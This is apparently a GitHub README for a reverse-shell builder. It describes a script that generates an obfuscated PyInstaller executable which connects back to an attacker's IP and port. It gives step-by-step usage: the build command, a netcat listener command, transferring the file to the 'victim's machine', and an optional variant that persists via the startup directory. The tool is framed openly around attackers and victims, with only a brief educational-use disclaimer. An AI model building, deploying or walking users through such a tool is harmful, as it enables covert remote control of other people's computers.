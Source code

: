 ![image](https://user-images.githubusercontent.com/97190263/224012280-5eb628ed-98a1-45e1-83ef-e5367c1c4383.png)



## Overview ##

This tool creates an executable file that establishes a reverse shell connection to a specified IP address and port. The builder.py script takes three arguments from the command line: the IP address, port number, and the filename for the output executable. It then obfuscate the modified file using <b>@acheong08</b> tool called py-obfuscate [compress.py] before creating an executable file that fits the current used system. The generated executable file is built using PyInstaller.

The generated executable file connects to a hardcoded IP address and port number and awaits commands from the attacker. The RevShell.py file is the code that will be executed on the victim's machine once the attacker has successfully established a connection. The code within RevShell.py is an obfuscated reverse shell that allows the attacker to execute commands on the victim's machine.

## Usage ##

<b>#Important!#</b>
* Use the builder script at the same system as the target machine , build on linux for linux targets, build on windows for windows targets

* Clone the repository or download the code.
* Navigate to the directory that contains the builder.py script.
* pip install -r requirements.txt
* pip install pyinstaller [make sure it is in your path after it has been installed]

* Run the following command [If you want the script to generate a bat file using your preferred input payload in the startup directory, you have the option of renaming RevShellWithStartup.py to RevShell.py.]:
<b>python3 builder.py IP PORT OutputFileName</b> 
Once the script has finished executing, the generated executable file will be located at dist in the same directory as the builder.py script.

* On the attacker's machine, establish a netcat listener on the specified port: nc -lvp <port number>.
* Transfer the generated executable file to the victim's machine.
* Run the executable file on the victim's machine.

The victim's machine will connect to the attacker's machine, and the attacker will be able to execute commands on the victim's machine through the netcat listener.
Note that the IP address and port number used in the builder.py script and the RevShell.py file are hardcoded and should be modified to match the IP address and port number that the attacker will use.

## Tools & Dependencies ##

# Tools #

* Python 3
* PyInstaller 

# Dependencies #

* socket
* cryptography
* pystyle
* subprocess
* os
* base64


# The dependencies listed above are standard Python libraries and should be included with any Python distribution #

Before running the builder.py script, make sure that all required tools and dependencies are installed and accessible from the command line.
<b>And Again use the builder script at the same system as the target machine , build on linux for linux targets, build on windows for windows targets [you can try using wine to compile exe on linux].</b>

## Disclaimer ##
This tool is provided for educational purposes only. Misuse of this tool to gain unauthorized access to computer systems is strictly prohibited. The author assumes no liability for any damages caused by the use or misuse of this tool.
